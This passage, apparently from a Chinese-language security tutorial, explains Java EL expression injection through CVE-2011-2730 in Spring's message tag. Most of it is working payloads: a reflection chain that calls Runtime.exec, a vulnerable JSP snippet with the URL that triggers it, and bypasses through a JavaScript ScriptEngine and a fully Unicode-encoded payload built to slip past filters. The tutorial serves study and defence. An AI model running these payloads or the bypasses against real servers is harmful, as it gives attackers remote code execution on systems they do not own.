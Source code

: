   header 和 headerValues 对象用来访问信息头，通过使用 request.getHeader() 方法和 request.getHeaders() 方法。  
  
  举例来说，要访问一个名为 user-agent 的信息头，可以这样使用表达式：${header.user-agent}，或者 ${header["user-agent"]}，就是简单的获取http头的信息  
  
  
**0x04EL表达式漏洞**  
  
  看看实际的漏洞来看，都是已一些比较老的漏洞  
  
**CVE-2011-2730**  
  
  看一个通用payload  
```
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))
```  
  
这个就是一个简单的调用流程看一下实际情况中存在的spring的标签  
```
<spring:message text=
"${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```  
```
<%@ taglib uri="http://www.springframework.org/tags" prefix="spring"%>
<spring:message  text="${param.a}"></spring:message>
```  
  
我们只需访问存在上面这个语句的jsp文件然后，传入参数就行  
  
http://localhost/test.jsp?a=${payloadbyel}  
  
这里就相当于执行了我们${payloadbyel}里面的语句  
  
这个漏洞的利用方式就是传入内部的el表达式是可控的然后内部会执行el表达啥从而导致的注入  
  
****  
**0x05基础bypass**  
  
**利用ScriptEngine调用JS引擎绕过**  
```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")}
```  
  
**利用Unicode编码绕过**  
  
  部分编码或者全部编码都可以  
```
// Unicode编码内容为前面反射调用的PoC
\u0024\u007b\u0027\u0027\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u002e\u0066\u006f\u0072\u004e\u0061\u006d\u0065\u0028\u0027\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0027\u0029\u002e\u0067\u0065\u0074\u004d\u0065\u0074\u0068\u006f\u0064\u0028\u0027\u0065\u0078\u0065\u0063\u0027\u002c\u0027\u0027\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u0029\u002e\u0069\u006e\u0076\u006f\u006b\u0065\u0028\u0027\u0027\u002e\u0067\u0065\u0074\u0043\u006c\u0061\u0073\u0073\u0028\u0029\u002e\u0066\u006f\u0072\u004e\u0061\u006d\u0065\u0028\u0027\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0027\u0029\u002e\u0067\u0065\u0074\u004d\u0065\u0074\u0068\u006f\u0064\u0028\u0027\u0067\u0065\u0074\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0027\u0029\u002e\u0069\u006e\u0076\u006f\u006b\u0065\u0028\u006e\u0075\u006c\u006c\u0029\u002c\u0027\u0063\u0061\u006c\u0063\u002e\u0065\u0078\u0065\u0027\u0029\u007d
```  
  